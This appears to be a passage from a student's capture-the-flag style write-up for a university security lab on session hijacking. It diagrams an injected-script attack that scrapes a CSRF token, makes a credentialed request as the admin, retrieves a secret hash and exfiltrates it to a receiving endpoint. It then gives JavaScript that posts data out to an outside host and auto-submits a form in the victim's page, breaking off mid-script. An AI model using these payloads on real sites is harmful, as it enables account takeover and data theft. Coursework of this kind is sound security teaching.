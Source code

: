 ```
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 4. Extract CSRF token from HTML                            │
│    - Regex: /name="csrfmiddlewaretoken"\s+value="([^"]+)"/ │
│    - Captures token value: abc123xyz789...                 │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 5. Second fetch: POST /session-hijacking/gguruvelli3       │
│    - Headers: X-CSRFToken: abc123xyz789...                 │
│    - credentials: 'include' sends admin's cookie           │
│    - Server validates CSRF token and session               │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 6. Server responds with secret hash                        │
│    - Response: {"hash": "eac65ab8bdec3fece827eb8a..."}     │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 7. Exfiltrate hash to attacker's endpoint                  │
│    - POST /receive/gguruvelli3/2065                        │
│    - Body: admin_hash=eac65ab8bdec3fece827eb8a...          │
└─────────────────────────────────────────────────────────────┘
```

### Result

**Successfully retrieved admin hash:** `eac65ab8bdec3fece827eb8a041c6509b9394b7b7b38eafbe0a76dc8e0e20737f105946ef4c47c49e724e0a8d3d06e1175f3cac99267e245187e1e66c2910450`

## Alternative Solution: DOM Manipulation Approach

After submitting the fetch-based solution, I explored an alternative that directly manipulates the admin's page:

```javascript
<script>
window.gotYou = true;

var attempts = 0;
var lookForForm = function() {
    attempts++;

    var inputField = document.querySelector('#sessionHijack');
    var button = document.querySelector('button[onclick*="submitSessionHijacking"]');
    var resultSpan = document.querySelector('#sessionHijackingResult');

    // Debug logging
    fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
        method: 'POST',
        body: 'debug=attempt_' + attempts +
              '_found_input:' + (inputField ? 'yes' : 'no') +
              '_button:' + (button ? 'yes' : 'no')
    });

    if (inputField && button) {
        // Found the form! Inject username and submit
        inputField.value = 'gguruvelli3';
        button.click();

```